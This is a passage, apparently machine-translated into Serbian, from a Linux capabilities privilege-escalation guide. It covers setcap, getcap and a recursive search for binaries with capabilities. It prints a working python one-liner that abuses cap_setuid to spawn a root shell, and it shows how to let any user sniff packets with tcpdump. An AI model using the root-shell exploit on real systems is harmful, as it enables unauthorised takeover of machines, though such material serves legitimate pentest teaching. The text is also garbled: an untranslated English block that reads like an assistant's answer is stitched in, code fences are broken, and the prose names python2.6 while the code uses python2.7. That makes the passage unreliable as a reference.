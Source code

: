 Možete nametnuti mogućnosti programima koristeći `setcap`, a ove mogućnosti možete proveriti koristeći `getcap`:

```bash
#Set Capability
setcap cap_net_raw+ep /sbin/ping

#Get Capability
getcap /sbin/ping
/sbin/ping = cap_net_raw+ep
```

`+ep` znači da dodajete sposobnost ("-" bi je uklonilo) kao Efektivnu i Dozvoljenu.

Da biste identifikovali programe u sistemu ili folderu sa sposobnostima:

```bash
getcap -r / 2>/dev/null
```

### Primer eksploatacije

U sledećem primeru je otkrivena ranjivost binarnog fajla `/usr/bin/python2.6` koja omogućava eskalaciju privilegija:

```bash
setcap cap_setuid+ep /usr/bin/python2.7
/usr/bin/python2.7 = cap_setuid+ep

#Exploit
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```

**Mogućnosti** potrebne `tcpdump`-u da **omoguće svakom korisniku da presreće pakete**:

````markdown
To allow any user to sniff packets, the `tcpdump` binary needs the following **capabilities**:

1. `CAP_NET_RAW`: This capability allows the binary to create raw network sockets, which is necessary for packet sniffing.

To grant these capabilities to the `tcpdump` binary, you can use the `setcap` command:

```bash
sudo setcap cap_net_raw=eip /usr/sbin/tcpdump
````

After granting the necessary capabilities, any user will be able to run `tcpdump` and sniff packets without requiring root privileges.

````
```bash
setcap cap_net_raw,cap_net_admin=eip /usr/sbin/tcpdump
getcap /usr/sbin/tcpdump
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+eip
````

### Poseban slučaj "praznih" sposobnosti
